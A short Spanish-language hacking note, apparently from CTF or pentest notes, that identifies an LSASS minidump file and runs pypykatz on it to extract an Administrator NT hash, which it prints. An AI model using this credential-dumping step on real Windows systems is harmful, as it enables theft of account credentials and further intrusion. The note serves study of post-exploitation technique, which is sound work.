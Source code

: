

# OBTENER UN HASH
#### LSASS.DMP
```SHELL
❯ file lsass.DMP
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type

#PODEMOS VER QUE ES MINI DUMP

❯ pypykatz lsa minidump lsass.DMP
ADMINISTRATOR
NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62 [HASH]
```